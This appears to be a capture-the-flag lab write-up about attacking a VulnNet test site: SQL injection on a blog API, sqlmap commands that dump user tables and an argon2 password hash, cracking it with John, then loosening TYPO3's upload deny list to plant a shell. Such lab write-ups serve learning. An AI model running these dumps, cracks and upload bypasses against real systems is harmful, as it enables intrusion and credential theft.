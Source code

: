 
http://admin1.vulnnet.thm/typo3/
![[Pasted image 20231126165454.png]]

![[Pasted image 20231126165600.png]]

As we don't have creds will go a little back and see what we are able to find in the either api or blog post which seems sus to me.

BurpSuite Timeeeeeeeeeeeeeeeeeeeeee

As we clicked on the blog we got a link with API fetching some data
```
/vn_internals/api/v2/fetch/?blog=5
```
![[Pasted image 20231126232733.png]]

So the first thing comes to my mind is sql injection to check if it's vulnerable
![[Pasted image 20231126233147.png]]
So yes it is let's escalate and see what we can fetch

Let's run this directly as we don't have any luck trying different parameters.
```
http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1
```
![[Pasted image 20231127191511.png]]

New trick that i learnt
```
 sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 --tables
```
![[Pasted image 20231127191651.png]]

And we got 3 database here
```
blog, information_schema, vn_admin
```

I got a list of user and password but it don't seems anything interesting to me
```
sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D blog -T users --dump
```

```
/root/.local/share/sqlmap/output/api.vulnnet.thm/dump/blog/users.csv
```

![[Pasted image 20231127193525.png]]

```
sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D vn_admin -T fe_users --dump
```
![[Pasted image 20231127193603.png]]

```
sqlmap http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1 -D vn_admin -T sys_vol --dump  
```
![[Pasted image 20231127193721.png]]


```
sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" --dbs -D vn_admin -T be_users --columns
```
![[Pasted image 20231127195705.png]]

```
sqlmap -u "http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=1" --dbs -D vn_admin -T be_users -C username,password -dump
```
![[Pasted image 20231127195719.png]]

```
username,password
chris_w,"$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg"
```

We can't crack it using Hashcat so our next best chance is Yes you guessed it right.
John Ripper and not John Wick hahhahahhaha

We have to provide the hash like this in order to JOHN to get working otherwise will get No password hashes loaded (see FAQ)

```
$argon2i$v=19$m=65536,t=16,p=2$UnlVSEgyMUFnYnJXNXlXdg$j6z3IshmjsN+CwhciRECV2NArQwipqQMIBtYufyM4Rg
```

```
john --wordlist=/usr/share/wordlists/rockyou.txt argon_hash.txt
```

Let's format the password and usernames that we got above from the blog database
![[Pasted image 20231128113441.png]]

Simply copied the csv filed and formatted it using this
```
cat user_pass.csv | awk -F "\"*,\"*" '{print $3":"$2}'
```
So what we are doing is ignoring the 1st comma and rearranging the columns (i.e. taking columns 3 1st )
![[Pasted image 20231128113428.png]]

Now we can pass it in the john as a password list
So what i have done is that i have made a txt file for users and password differently
![[Pasted image 20231128120754.png]]

![[Pasted image 20231128121329.png]]

```
cwoodson33
chris_w
vAxWtmNzeTz
```

![[Pasted image 20231128125348.png]]

Got Email info
```
chris_w@vulnnet.thm
Typ03 version 10.3.0
```

Settings -> Configure Installation-Wide Options
![[Pasted image 20231128135110.png]]
```
\.(cgi)(\..*)?$|\.pl$|^\.htaccess$
```


![[Pasted image 20231128135400.png]]

Able to upload the file as i have deleted the php [3-8] from the deny list

```
http://admin1.vulnnet.thm/fileadmin/
```
![[Pasted image 20231128140714.png]]

The site got hunged which indicated that we got a shell
![[Pasted image 20231128140750.png]]


We escalated from dumb shell to interactive shell
